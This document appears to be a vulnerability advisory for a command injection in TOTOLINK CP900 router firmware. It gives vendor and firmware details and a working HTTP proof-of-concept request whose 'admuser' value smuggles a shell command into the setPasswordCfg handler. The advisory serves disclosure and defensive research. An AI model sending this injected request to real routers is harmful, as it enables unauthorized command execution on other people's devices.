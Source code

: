 ## Totolink CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CP900
* Version: V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink CP900 V6.3c.1144_B20190715 was found to contain a command injection vulnerability in the `setPasswordCfg` function via the `admuser` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 135
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setPasswordCfg",
    "admuser": "1;pwd;"
    "admpass": "test"
}
```


